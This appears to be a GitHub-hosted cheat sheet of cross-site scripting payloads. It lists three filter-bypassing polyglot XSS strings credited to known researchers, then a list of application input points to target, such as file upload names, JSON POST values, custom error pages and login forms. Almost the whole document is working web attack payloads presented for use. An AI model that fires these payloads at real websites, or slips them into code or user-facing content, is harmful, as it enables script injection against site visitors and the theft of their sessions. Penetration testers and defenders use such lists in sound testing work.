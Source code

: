 Multi-context, filter bypass based polyglot payload #1 (Rsnake XSS Cheat Sheet)
```
';alert(String.fromCharCode(88,83,83))//';alert(String. fromCharCode(88,83,83))//";alert(String.fromCharCode (88,83,83))//";alert(String.fromCharCode(88,83,83))//-- ></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83)) </SCRIPT>
```

Multi-context, filter bypass based polyglot payload #2 (Ashar Javed XSS Research)
```
">><marquee><img src=x onerror=confirm(1)></marquee>" ></plaintext\></|\><plaintext/onmouseover=prompt(1) ><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->" ></script><script>alert(1)</script>"><img/id="confirm&lpar; 1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http: //i.imgur.com/P8mL8.jpg"> 
```

Multi-context polyglot payload (Mathias Karlsson)
```
" onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
```

# Probably temp stuff
Input Vectors for XSS:
- Customizable Themes & Profiles via CSS
- Event or meeting names
- URI based
- Imported from a 3rd party (think Facebook integration)
- JSON POST Values (check returning content type)
- File Upload names
- Uploaded files (swf, HTML, ++)
- Custom Error pages
- fake params - ?realparam=1&foo=bar’+alert(/XSS/)+’
- Login and Forgot password forms
